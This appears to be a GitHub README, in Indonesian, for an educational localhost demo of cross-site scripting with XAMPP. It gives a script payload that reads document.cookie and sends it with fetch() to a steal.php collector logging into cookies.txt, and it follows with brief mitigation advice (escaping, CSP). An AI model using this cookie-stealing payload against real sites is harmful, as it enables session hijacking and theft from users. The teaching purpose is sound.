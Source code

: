 # 🚨 XSS Attack Demo - Localhost Setup

Selamat datang di repo ini gengss! 👋  
Di sini kita bakal ngebahas gimana sih serangan **Cross-Site Scripting (XSS)** itu bisa terjadi, gimana caranya dijalankan, serta dampaknya ke aplikasi web 💻. Semuanya kita coba langsung di localhost pake XAMPP biar aman dan nggak nyerang siapa-siapa 😎.

## 🎯 Tujuan
- Memahami dasar serangan XSS
- Mengetahui bagaimana XSS dapat mencuri cookie
- Menjelaskan mitigasi sederhana terhadap XSS

---

## 🗂️ Struktur Folder

demo-xss/
├── index.html # Halaman form login
├── xss-demo.html # Halaman yang vulnerable XSS
├── steal.php # File untuk menerima dan mencatat cookie
├── cookies.txt # File tempat cookie korban disimpan

yaml
Salin
Edit

---

## 🛠️ Setup Lokal

1. Install [XAMPP](https://www.apachefriends.org/index.html)
2. Letakkan semua file di folder: `htdocs/demo-xss/`
3. Jalankan Apache dari XAMPP Control Panel
4. Akses di browser:
http://localhost/demo-xss/index.html

yaml
Salin
Edit

---

## 💥 Cara Menjalankan Demo XSS

### 1. Buka `index.html`
Masukkan username: `admin123`  
(ini akan set cookie `username=admin123`)

```html
<script>
document.cookie = "username=admin123; path=/";
</script>
2. Buka xss-demo.html
Masukkan payload ini di kolom komentar:

html
Salin
Edit
<script>
  fetch('http://localhost/demo-xss/steal.php?cookie=' + encodeURIComponent(document.cookie))
</script>
3. Cek file cookies.txt
Buka cookies.txt di folder project. Di sana akan muncul cookie korban seperti:

ini
Salin
Edit
username=admin123
🔐 Penjelasan Singkat
Script jahat dijalankan dari input user yang tidak difilter

document.cookie mengambil cookie aktif

fetch() mengirim data ke steal.php

steal.php menyimpan data ke cookies.txt

🛡️ Cara Mencegah XSS
✅ Escape & sanitasi input user
✅ Gunakan Content Security Policy (CSP)
✅ Hindari penggunaan innerHTML dan document.write()
✅ Validasi input di sisi server dan client

📚 Referensi
OWASP XSS Guide

MDN Web Docs

PortSwigger XSS Academy

⚠️ Disclaimer
🛑 Tujuan dari repo ini hanya untuk edukasi.
Jangan pernah melakukan serangan XSS ke website orang lain tanpa izin! 😡
Use it responsibly and ethically 🙏

📩 Kontak
Kalau ada pertanyaan atau pengen bahas lebih lanjut, feel free buat open issue atau DM ya!

